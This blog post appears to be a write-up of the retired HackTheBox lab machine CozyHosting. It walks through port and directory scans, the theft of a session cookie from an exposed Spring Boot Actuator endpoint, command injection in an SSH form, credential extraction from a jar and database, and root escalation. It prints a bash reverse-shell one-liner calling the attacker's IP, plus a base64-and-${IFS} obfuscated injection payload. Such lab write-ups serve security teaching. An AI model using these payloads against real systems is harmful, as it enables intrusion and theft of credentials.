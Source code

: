 ```yaml
---
title: "HackTheBox | CozyHosting"
layout: post
date: 2024-03-02 12:00
tag: 
- HackTheBox
- Pentesting
- CozyHosting
- Linux
- Easy
- Spring Boot
- Actuator
- JADX
image: https://labs.hackthebox.com/storage/avatars/eaed7cd01e84ef5c6ec7d949d1d61110.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "An easy retired HackTheBox machine."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

CozyHosting is an easy Linux machine that features a Spring Boot application. The application has the Actuator endpoint enabled. Enumerating the endpoint leads to the discovery of a user session cookie, leading to authenticated access to the main dashboard. The application is vulnerable to command injection, which is leveraged to gain a reverse shell on the remote machine. The user is allowed to run ssh as root, which is leveraged to fully escalate privileges.

---

# Nmap

```bash
nmap -A -T4 10.129.117.106
Starting Nmap 7.91 ( https://nmap.org ) at 2023-09-03 11:34 +01
Not shown: 988 closed ports
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp    open     http          nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
1175/tcp  filtered dossier
1521/tcp  filtered oracle
1718/tcp  filtered h323gatedisc
1875/tcp  filtered westell-stats
2602/tcp  filtered ripd
5087/tcp  filtered biotic
5910/tcp  filtered cm
8443/tcp  filtered https-alt
20005/tcp filtered btx
33354/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Gobuster

```bash
gobuster dir -u http://cozyhosting.htb -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/09/03 11:38:55 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 401) [Size: 97]
/error                (Status: 500) [Size: 73]
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431] 
/logout               (Status: 204) [Size: 0]
2023/09/03 11:41:18 Finished
```

I went to the */login* endpoint, but I don't have any credentials right now so I cannot login :

![!\[\[Pasted image 20230903114221.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230903114221.png>)

![!\[\[Pasted image 20230903120639.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230903120639.png>)

The */error* endpoint gave me a hint about Spring Boot :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20230928160623.png>)

>Spring Boot includes a number of additional features called actuators to help monitor and control an application when it is pushed to production. Actuators allow controlling and monitoring an application using either HTTP or JMX endpoints. Auditing, health and metrics gathering can also open a hidden door to the server if an application has been misconfigured.

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)

![!\[\[Pasted image 20230903131356.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230903131356.png>)

The */actuator/mappings* contains gave me another endpoint (*/actuator/sessions*) which contains kanderson's cookie :

![!\[\[Pasted image 20230906124123.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230906124123.png>)

![!\[\[Pasted image 20230906124042.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230906124042.png>)

I used that cookie to login to Cozy Cloud :

![!\[\[Pasted image 20230906124017.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230906124017.png>)

That dashboard contains an ssh form where I used Burp to intercept the request :

![!\[\[Pasted image 20230928161019.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230928161019.png>)

![!\[\[Pasted image 20230907121847.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230907121847.png>)

I noticed when I use an empty username it gives ssh usage error, so I thought about command injection :

![!\[\[Pasted image 20230907122139.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230907122139.png>)

Normal payload doesn't work so I tried to base64 encoding it, then use the *base64 -d* to decode it :

```bash
bash -i >& /dev/tcp/10.10.16.51/9999 0>&1
```

```bash
;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41MS85OTk5IDA+JjEK"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;
```

Then URL encoding (CTRL + U) > send the request :

![!\[\[Pasted image 20230928141032.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230928141032.png>)

Voilà we gain a shell as app user, Then I found a jar file which I downloaded to my local machine :

![!\[\[Pasted image 20230928141413.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230928141413.png>)

I used **JADX** to read the jar file.
In *application.properties* I found the password for *postgres*, and in *scheduled/FakeUser.class* I found the creds for user *kanderson* :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20230928142540.png>)

![!\[\[Pasted image 20230928143105.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230928143105.png>)

I used the bellow command to login to the postgres db :

```bash
psql -h 127.0.0.1 -U postgres
```

[https://www.commandprompt.com/education/postgresql-basic-psql-commands](https://www.commandprompt.com/education/postgresql-basic-psql-commands)

![!\[\[Pasted image 20230928154054.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230928154054.png>)

I found the hash of admin user, I said maybe it's the password of the josh user too :

![!\[\[Pasted image 20230928154616.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230928154616.png>)

And yes that was the case :

![!\[\[Pasted image 20230928154706.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230928154706.png>)


# Root flag

The root flag was a piece of cake. Using **GTFObins** :

[https://gtfobins.github.io/gtfobins/ssh](https://gtfobins.github.io/gtfobins/ssh)

![!\[\[Pasted image 20230928154852.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230928154852.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>